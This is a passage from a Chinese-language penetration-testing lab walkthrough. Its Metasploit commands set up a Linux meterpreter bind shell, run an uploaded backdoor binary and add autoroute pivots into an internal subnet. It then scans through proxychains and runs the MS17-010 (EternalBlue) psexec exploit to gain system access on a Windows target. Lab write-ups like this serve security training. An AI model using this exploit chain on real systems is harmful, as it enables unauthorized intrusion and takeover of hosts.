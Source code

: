 ```shell
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 192.168.22.128
set LPORT 3333
exploit
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-68.png)

##### 上传后门、执行后门

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-69.png)

```shell
chmod +x t2.elf
./t2.elf
```

![70-70](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-70.png)

##### 接收到会话

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-71.png)

##### 信息收集及配置访问

```shell
获取网络接口：run get_local_subnets
查看路由地址：run autoroute -p
添加路由地址：run autoroute -s 192.168.33.0/24
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-72.png)

接下来对3333端口进行攻击，由于目标主机是windows系统，我们以前讲过很多攻击工具，比如，namp --script=all、namp --script=vuln、nessus等

### Target3

探针目标-端口及漏洞扫描-利用MS17010获取系统权限-获取Flag-GG

##### 探针检测

探针目标，发现开放了445和3389端口，且存在MS17010漏洞。(永恒之蓝)

```shell
proxychains4 nmap -Pn -sT 192.168.33.33
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-73.png)

##### 漏洞利用

利用MS17010获取系统权限

```shell
use exploit/windows/smb/ms17_010_psexec
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.33.33
exploit
```
